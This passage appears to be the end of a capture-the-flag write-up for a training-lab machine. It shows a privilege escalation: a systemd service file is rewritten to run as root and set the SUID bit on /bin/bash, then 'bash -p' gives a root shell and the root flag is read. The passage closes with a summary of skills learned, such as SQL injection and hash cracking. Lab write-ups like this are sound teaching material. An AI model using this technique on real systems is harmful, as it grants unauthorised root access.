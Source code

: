 **Hmm... How about I set the `User` and `Group` to `root`, and add a SUID sticky bit to `/bin/bash`?**
```
[Service]
User=root
Group=root
WorkingDirectory=/var/www/duckyinc
ExecStart=/bin/chmod +s /bin/bash
```

**Then restart the service:**
```
server-admin@duckyinc:~$ sudo /bin/systemctl daemon-reload
server-admin@duckyinc:~$ sudo /bin/systemctl enable duckyinc.service
server-admin@duckyinc:~$ sudo /bin/systemctl start duckyinc.service
server-admin@duckyinc:~$ sudo /bin/systemctl restart duckyinc.service

server-admin@duckyinc:~$ ls -lah /bin/bash
-rwsr-sr-x 1 root root 1.1M Jun  6  2019 /bin/bash
```

**Nice! We now can become `root` via `/bin/bash -p` to use the SUID privilege:**
```
server-admin@duckyinc:~$ /bin/bash -p
bash-4.4# whoami;hostname;id;ip a
root
duckyinc
uid=1001(server-admin) gid=1001(server-admin) euid=0(root) egid=0(root) groups=0(root),33(www-data),1001(server-admin)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc fq_codel state UP group default qlen 1000
    link/ether 02:90:cb:86:fd:07 brd ff:ff:ff:ff:ff:ff
    inet 10.10.151.170/16 brd 10.10.255.255 scope global dynamic eth0
       valid_lft 2903sec preferred_lft 2903sec
    inet6 fe80::90:cbff:fe86:fd07/64 scope link 
       valid_lft forever preferred_lft forever
```

I'm root! :D

## Rooted

**`flag3.txt`:**
```
bash-4.4# cat /root/flag3.txt
thm{Redacted}
```

# Conclusion

What we've learned:

1. Enumerating Web Application's Hidden Directories and Files
2. Information Disclosures in Web Application's Back-end Details
3. Exploiting UNION-Based SQL Injection
4. Cracking Hashes
5. Vertical Privilege Escalation via Editing Service Configuration